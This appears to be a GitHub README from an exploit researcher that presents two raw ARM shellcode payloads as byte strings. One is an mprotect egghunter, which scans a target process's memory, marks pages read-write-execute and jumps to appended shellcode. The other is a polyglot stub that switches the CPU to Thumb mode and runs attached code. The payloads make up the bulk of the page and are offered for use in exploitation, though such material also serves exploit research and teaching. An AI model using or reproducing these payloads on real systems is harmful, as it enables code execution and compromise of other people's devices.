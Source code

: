 ARM Shellcode
=============

1. mprotect egghunter
---------------------

- Searches for an EGG (4+4 byte value) in the memory of the exploited process.
- Uses mprotect() to test the presence of pages in the virtual memory space of the target process.
- mprotect() also marks pages RWX as it scans the virtual memory space.
- Upon finding the pre-defined EGG occuring at consecutive locations, the mprotect egghunter passes on the execution control to the shellcode appended to the eggs.

RAW SHELLCODE:
```
$mprotect_egghunter = "\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x6d\x40\x7d\x27\x01\x21\x09\x03\x07\x22\x28\x1c\x01\xdf\x0c\x30\x01\xd1\x6d\x18\xf9\xe7\x6e\x18\x05\x48\x2b\x68\x04\x35\xb5\x42\xf3\xd0\x2c\x68\x98\x42\xf8\xd1\xa3\x42\xf6\xd1\x04\x35\x28\x47HACK";
```

2. Quantum Leap code
--------------------

- ARM/Thumb Polyglot code.
- Can be started in ARM mode or Thumb mode.
- Irrespective of the mode it is started in, the Quantum Leap code will switch the CPU to Thumb mode and proceed to execute any Thumb shellcode appended to it.

RAW SHELLCODE:
```
$quantum_leap_stub = "\x19\xa0\x8f\x22\x15\xa0\x8f\x32\x0d\x40\xa0\x21\x0d\x40\xa0\x31\x12\x04\x2d\x29\x12\x04\x2d\x39\x02\xa0\xbd\x28\x02\xa0\xbd\x38";
```

For more details please browse through my presentation titled "Make ARM Shellcode Great Again" at https://www.slideshare.net/saumilshah/make-arm-shellcode-great-again

@therealsaumil

